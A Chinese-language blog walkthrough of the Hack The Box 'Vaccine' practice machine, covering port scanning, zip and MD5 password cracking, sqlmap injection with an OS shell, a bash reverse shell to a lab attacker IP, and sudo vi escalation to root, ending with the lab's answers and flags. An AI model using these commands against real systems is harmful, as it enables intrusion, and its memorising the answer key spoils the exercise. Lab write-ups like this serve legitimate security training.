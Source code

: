 ```yaml
---
title: Hack the box Vaccine题解
tags: 
  - HTB
  - 渗透测试
permalink: /archives/28632/
published: 2023-04-02 12:10:06
---
```


>  在打靶机的时候网络有点问题，所以这份WP里的目标机器的IP前后是不一样的，但总的来说，方法大同小异

 # 扫端口

```shell
nmap -sC -sV 10.129.252.99
```

![image-20230402121345323](./images/image-20230402121345323.png)

开启了21、22和80端口，访问80端口，什么都没有，结合任务1和任务2，就直接练上去看有没有东西

![image-20230402131255007](./images/image-20230402131255007.png)

# ftp

连上以后把文件复制出来

![image-20230402131346467](./images/image-20230402131346467.png)

# 破解zip密码

解压的时候发现是有密码的

![image-20230402131602635](./images/image-20230402131602635.png)

看到任务4，和经过百度知道利用`zip2john`去获取压缩包的`hash`值，然后使用`john`去破解`hash`值

![image-20230402131644512](./images/image-20230402131644512.png)

破解成功

![image-20230402132032683](./images/image-20230402132032683.png)

# backup的内容

得到了两个文件

![image-20230402132448632](./images/image-20230402132448632.png)

其中`index.php`里面有网站的管理员账号和密码，密码经过了md5加密，经过破解得到：`qwerty789`，这也是任务5的答案

![image-20230402132520686](./images/image-20230402132520686.png)

![image-20230402132605551](./images/image-20230402132605551.png)

# sql注入

登录到后台后有个搜索框尝试有无sql注入，发现可注入，加上任务6的提示，那就直接`sqlmap`一把梭

![image-20230402204507038](./images/image-20230402204507038.png)

用`burpsuite`抓包保存到1.txt后，利用sqlmap进行注入，并利用`--os-shell`进行执行`shell`的命令

![image-20230402223030330](./images/image-20230402223030330.png)

- 注入命令：

```shell
sqlmap -r 1.txt --os-shell 
```

# 反弹shell

- 攻击机监听

```shell
nc -lvvp 1234
```

- 在`--os-shell`里执行

```shell
bash -c "bash -i >& /dev/tcp/10.10.14.13/1234 0>&1"
```

在网站的根目录下的`dashboard.php`里发现了数据库的一个账号的密码

![image-20230402223929668](./images/image-20230402223929668.png)

```
账号：postgres
密码：P@s5w0rd!
```

# 提权

在前面的端口扫描里看到这台机器是开启了22端口的，尝试使用上面得到的账号密码去登陆（想要用这个是因为为反弹shell后并不稳定，老是掉线，所以就换另一个方法），可以成功登录![image-20230402224519697](./images/image-20230402224519697.png)

使用命令`suo -l`查看`postgres`能执行的高级权限的命令

![image-20230402224934023](./images/image-20230402224934023.png)

发现有一个命令是：

```shell
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

然后看官方的wp得知，可以利用vi进行提权

>首先运行命令：sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
>输入`:`切换命令模式输入：set shell=/bin/sh
>
>在按一次`:`切换到命令模式输入：shell

然后就切换到了`root`用户

![image-20230402230044265](./images/image-20230402230044265.png)

# 答案

> 1. FTP
> 2. anonymous
> 3. backup.zip
> 4. zip2john
> 5. qwerty789
> 6. --os-shell
> 7. vi
> 8. ec9b13ca4d6229cd5cc1e09980965bf7
> 9. dd6e058e814260bc70e9bbdef2715849

# 参考博客

[hack the box靶场Vaccine靶机](https://blog.csdn.net/zr1213159840/article/details/123693695)

[渗透测试练习靶场hackthebox——Starting Point Vaccine攻略（内附各种bug解决方案）](https://blog.csdn.net/m0_48066270/article/details/108696605)
